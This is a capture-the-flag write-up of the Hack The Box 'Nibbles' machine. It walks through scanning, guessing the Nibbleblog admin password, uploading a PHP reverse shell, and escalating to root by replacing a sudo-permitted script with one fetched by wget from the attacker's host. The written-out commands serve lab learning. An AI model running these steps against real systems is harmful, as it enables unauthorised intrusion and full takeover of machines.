 # recon
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

found a hidden text in index.html, which lead us to `nibbles.htb/nibbleblog/`

now gobuster!!!
```
/README
/admin (Status: 301)
/content (Status: 301)
/languages (Status: 301)
/plugins (Status: 301)
/themes (Status: 301)
```

- /nibbleblog/README
```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
```
- /nibbleblog/admin.php is a login page. guess and luckly got in with `admin:nibbles`

some digging and found this link from [wikihack](https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/)

okey let find our shell on kali
```console
bibo318@parrot:/opt$ sudo find / -name php-reverse* 2> /dev/null
/usr/share/webshells/php/php-reverse-shell.php
```
copy it and modify ip and port
1. upload shell as the guide said
2. nc listen for incoming reverse shell
3. vistie nibbles.htb/nibbleblog/content/private/plugins/my_image/my_image.php

BOOM ! go grab the flag

there is a zip file call personal.zip. I found a .sh call monitor.sh that looks interesting

```console
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la
ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```
I googling a bit about **tecmint monitor** but didnt find anything juicy about the script


Escape jail shell by runing `python3 -c 'import pty; pty.spawn("/bin/bash")'`
now let check.. 

- sudo -l
```console
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
since I cant use `vi` or `nano` I decided to create the monitor.sh on my kali and run python webserver then wget it on the victim server. here is the content of `monitor.sh` 
```console
bibo318@parrot:~/HTB/nibbles$ cat monitor.sh 
#!/bin/sh
/bin/bash -i
```
now remove the old .sh and wget the one we created on kali
```console
nibbler@Nibbles:/home/nibbler/personal/stuff$ rm monitor.sh #remove the old one that i uzip it
nibbler@Nibbles:/home/nibbler/personal/stuff$ wget http://10.10.14.8:8888/monitor.sh
<er/personal/stuff$ wget http://10.10.14.8:8888/monitor.sh                   
--2020-10-02 15:00:51--  http://10.10.14.8:8888/monitor.sh
Connecting to 10.10.14.8:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23 [text/x-sh]
Saving to: 'monitor.sh.1'

monitor.sh.1        100%[===================>]      23  --.-KB/s    in 0s      

2020-10-02 15:00:51 (2.39 MB/s) - 'monitor.sh.1' saved [23/23]
```
now let get root shell! 
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la
ls -la
total 24
drwxr-xr-x 2 nibbler nibbler  4096 Oct  2 15:02 .
drwxr-xr-x 3 nibbler nibbler  4096 Dec 10  2017 ..
-rw-r--r-- 1 nibbler nibbler 12288 Oct  2 14:50 .monitor.sh.swp
-rwxrwxrwx 1 nibbler nibbler    23 Oct  2 14:56 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ cd ..
nibbler@Nibbles:/home/nibbler/personal$ sudo stuff/monitor.sh
sudo stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
root@Nibbles:/home/nibbler/personal/stuff# whoami
whoami
root
```
Now go grab root flag

ps: I keep getting this message `sudo: unable to resolve host Nibbles: Connection timed out` 1st time when i run `sudo -l` now again after googling around I found a solution which is add host name to /etc/hosts: `echo "127.0.1.2 Nibbles" >> /etc/hosts`

